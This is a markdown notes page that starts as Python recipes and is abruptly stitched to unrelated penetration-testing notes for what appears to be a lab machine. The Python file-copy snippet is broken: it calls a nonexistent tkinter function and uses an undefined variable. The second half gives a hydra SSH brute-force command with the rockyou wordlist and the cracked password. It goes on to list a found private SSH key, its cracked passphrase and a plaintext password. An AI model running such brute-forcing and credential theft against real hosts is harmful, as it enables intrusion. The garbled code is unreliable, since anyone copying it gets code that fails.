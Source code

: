```yaml
---
title: Python Recipes
summary: A note about Python useful bits of code.
description: A note about Python useful bits of code.
tags:
  - python
---
```


# Files

---

### Copy Files

Source: [How To Copy Files - Intently](https://www.youtube.com/watch?v=vx9zFN8PxOA)

````python
from tkinter import filedialog
from pathlib import Path
import shutil

# Open a file explorer window to choose a file
src_path: str = filedialog.askopenfilename(title='Pick a file to copy')
# Open a file explorer window to choose a directory
dst_directory: str = filedialog.askopendirectory(title='Pick a destination')

# Path handle path regardless of the OS 
dst_path: Path = Path(directory) / f'copy.{src_path.split(".")[-1]}' 

# Copy a file without metadata
shutil.copyfile(src=src_path, dst=dst_path)
# Copy a file with metadata
shutil.copy2(src=src_path, dst=dst_path)
````

# Dict

---

### Sort Values in Reverse Order


````py
dict(sorted(myDict.items(), key=lambda x: x[1],reverse=True))
````

````py
import operator

dict(sorted(myDict.items(), key=operator.itemgetter(1),reverse=True))
````

-- NMAP :
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-17 22:13 CET
Nmap scan report for 10.10.51.214
Host is up (0.099s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8009/tcp open  ajp13?
8080/tcp open  http-proxy?
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

-- GOBUSTER :
/development/

-- /development :
dev.txt
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J

j.txt
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K

-- SMB:
staff.txt
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay

-- HYDRA :
hydra 10.10.51.214 -l "jan" -P /usr/share/wordlists/rockyou.txt ssh

\[22\]\[ssh\] host: 10.10.51.214   login: jan   password: armando

-- LINEPEAS.SH (on machine) :
Possible private SSH keys were found!
/home/kay/.ssh/id_rsa

-- JOHNTHERIPPER :
With Kay's Private Key
beeswax

-- KAY :
pass.bak
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
